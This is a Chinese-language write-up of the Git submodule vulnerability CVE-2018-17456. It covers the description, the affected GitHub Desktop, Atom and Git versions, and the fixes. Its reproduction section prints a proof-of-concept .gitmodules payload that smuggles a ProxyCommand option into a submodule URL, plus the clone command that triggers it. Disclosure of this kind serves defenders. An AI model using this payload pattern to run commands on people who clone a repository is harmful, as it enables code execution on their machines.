


# Git漏洞允许任意代码执行(CVE-2018-17456)

------

国外安全研究员 joernchen 在 9 月 23 日向 git 官方报告了漏洞的相关细节。10月5日，Git项目披露了一个漏洞，编号为CVE-2018-17456。当用户克隆恶意存储库时，该漏洞可能会导致执行任意代码。

------

## 漏洞描述

这个漏洞已被分配 CVE-2018-17456 这个唯一 ID，与之前的 CVE-2017-1000117 可选注入漏洞相似 —— 恶意仓库可以新建一个 .gitmodules 文件，其中包含以破折号开头的 URL。

通过破折号，当 Git 使用 --recurse-submodules 参数来克隆仓库时，该命令会将 URL 翻译为一个选项，然后可以使用该选项在计算机上进行远程代码执行。

当运行 "git clone --recurse-submodules" 时，Git 会解析 .gitmodules 文件中的 URL 字段，然后将其作为参数传递给 "git clone" 子进程。如果 URL 字段是一个字符串，并使用短划线开头，这个 "git clone" 子进程将会把 URL 翻译为一个选项。这可能导致用户运行 "git clone" 时，会执行 superproject 中的任意脚本。

------

## 受影响的产品

### GitHub桌面
GitHub Desktop 1.4.1及更早版本包含受此漏洞影响的嵌入式Git。

### Atom
Atom包含了相同的嵌入式Git，也受到了影响。版本1.31.2和1.32.0-beta3包括补丁。

### Git命令行
Git在命令行和其他客户端上

------

## 漏洞复现
以mac os的git命令行， 版本为2.10.1




* 0x1 首先在github创建一个仓库，然后传一个`.gitmodules` 文件，里面写入payload：
```
[submodule "test"]
	path = test
	url = ssh://-oProxyCommand=touch JimZ-test/git@github.com:/timwr/test.git
```
如果执行了`touch JimZ-test`，则存在漏洞。

自此我们的恶意仓库创建完成。

* 0x2 用靶机打开受影响的git，然后输入payload 
```
git clone https://github.com/zhengjim/CVE-2018-17456.git --recurse-submodules
```


然后`ls CVE-2018-17456` 查看

存在JimZ-test文件 ，证明执行了`touch JimZ-test`

复现成功

------

## 修复方案
此漏洞已在 Git v2.19.1 (with backports in v2.14.5, v2.15.3, v2.16.5, v2.17.2, and v2.18.1), GitHub Desktop 1.4.2, Github Desktop 1.4.3-beta0, Atom 1.31.2 和 Atom 1.32.0-beta3 中得到修复

* 将 git 命令行工具更新至 git 官方发布的最新版本。

* Github Desktop 更新至 1.4.2、1.4.3-beta0 版本。

* Atom 更新至 1.31.2、1.32.0-beta3 版本。


## 参考文章

* https://mp.weixin.qq.com/s/8ccCxij6XI90sfJzvpkDVg
* https://zhuanlan.kanxue.com/article-5210.htm
* http://hackernews.cc/archives/24216